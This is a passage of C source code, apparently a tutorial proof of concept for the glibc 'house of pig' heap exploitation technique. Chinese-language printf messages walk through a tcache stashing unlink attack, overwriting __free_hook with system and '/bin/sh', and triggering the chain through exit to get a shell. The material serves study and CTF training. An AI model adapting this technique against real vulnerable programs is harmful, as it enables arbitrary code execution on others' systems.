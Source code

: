 ```c
    printf_color(GREEN, UNDEFINED, "设置完成。最后注意free函数的参数是FILE结构体的起始地址，因此在第二个chunk+0x20处写入\"/bin/sh\\x00\"。\n");
    printf_color(GREEN, UNDEFINED, "另外在第二个chunk+0x30处写入system函数地址，memcpy函数能够将这里的地址复制到__free_hook。\n");

    strcpy((char*)(chunk_1 + 0x20), "/bin/sh");
    *(size_t*)(chunk_1 + 0x20 + 0x10) = (size_t)system;

    printf_color(GREEN, UNDEFINED, "............\n");
    printf_color(GREEN, UNDEFINED, "设置完成。\n\n");

    printf_color(RED, HIGHLIGHT, "第五步：通过tcache stashing unlink attack在tcache写入__free_hook附近地址。\n");
    printf_color(GREEN, UNDEFINED, "当赛题中只使用calloc时，只有在tcache中存放堆地址，才能让malloc分配到__free_hook。\n");
    printf_color(GREEN, UNDEFINED, "下面进行这种攻击的常规流程：\n");
    printf_color(GREEN, UNDEFINED, "首先分配9个chunk并释放，7个到tcache，2个到small bins。然后分配两个tcache chunk出来。\n");

    void* chunks[9];

    for(int i=0; i<7; i++)
        chunks[i] = malloc(0xF0);
    malloc(0x20);   // to avoid consolidate
    chunks[7] = malloc(0xF0);
    malloc(0x20);   // to avoid consolidate
    chunks[8] = malloc(0xF0);
    malloc(0x20);   // to avoid consolidate
    for(int i=0; i<9; i++)
        free(chunks[i]);
    malloc(0xF0);
    malloc(0xF0);
    malloc(0x100);

    printf_color(GREEN, UNDEFINED, "依次释放9个chunk，tcache中的chunk应该为：7->6->5->4->3->2->1。\n");
    printf_color(GREEN, UNDEFINED, "unsorted bin中的chunk应该为：9<->8。\n");
    printf_color(GREEN, UNDEFINED, "然后分配出来两个tcache chunk，再分配一个较大的chunk，让unsorted bin的两个chunk进入small bins。\n");
    printf_color(GREEN, UNDEFINED, "应该修改第9个chunk的bk指针为__free_hook附近地址。\n");
    printf_color(GREEN, UNDEFINED, "............\n");

    *(size_t*)((size_t)(chunks[8]) + 0x8) = __free_hook - 0x20;

    printf_color(GREEN, UNDEFINED, "修改完成，之后分配一个出来进行攻击。\n");
    calloc(1, 0xF0);

    printf_color(GREEN, UNDEFINED, "已经分配出来了一个chunk，现在0x100的tcache中的第一个chunk就是__free_hook附近的地址。\n\n");

    printf_color(RED, HIGHLIGHT, "第六步：调用exit函数触发house of pig漏洞。\n");
    printf_color(GREEN, UNDEFINED, "现在，所有的东西都已经布置好了，只需要一个exit函数，我们就能够执行预期的函数调用链并getshell。\n");
    exit(-1);
}
```
